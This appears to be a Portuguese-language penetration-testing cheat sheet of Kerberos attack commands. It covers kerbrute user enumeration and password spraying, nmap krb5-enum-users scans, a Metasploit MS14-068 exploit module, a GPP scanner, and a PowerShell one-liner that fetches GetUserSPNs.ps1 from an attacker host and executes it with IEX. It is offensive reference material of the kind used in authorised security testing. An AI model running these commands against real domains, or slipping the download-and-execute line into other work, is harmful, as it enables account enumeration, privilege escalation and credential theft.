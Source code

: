 # kerberos

% kerberos

## Kerbrute enumeração de usuários
#plateform/linux #target/remote #port/88 #protocol/kerberos #cat/ATTACK/BRUTEFORCE-SPRAY 
```
./kerbrute_linux_amd64 userenum -d <domain> --dc <ip> <users_file>
```

## kerberos enumeração de usuários
#plateform/linux #target/remote #port/88 #protocol/kerberos #cat/RECON 
```
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain>'" <ip>
```

## kerberos enumeração de usuários (utilizando uma lista de usuários)
#plateform/linux #target/remote #port/88 #protocol/kerberos #cat/ATTACK/BRUTEFORCE-SPRAY
```
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain>',userdb=<users_list_file>" <ip>
```

## kerberos ms14-068
#plateform/linux #target/remote #port/88 #protocol/kerberos #cat/ATTACK/EXPLOIT 
```
msfconsole -x "use auxiliary/admin/kerberos/ms14_068_kerberos_checksum"
```

## exploit gpp - preferência de política de grupo (ms14-025)
#plateform/linux #target/remote #port/88 #protocol/kerberos #cat/RECON 
```
msfconsole -x "use scanner/smb/smb_enum_gpp"
```

## powershell - obter o SPN do usuário
#plateform/windows #target/remote #port/88 #protocol/kerberos #cat/RECON 

https://github.com/nidem/kerberoast
```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/GetUserSPNs.ps1') | IEX
```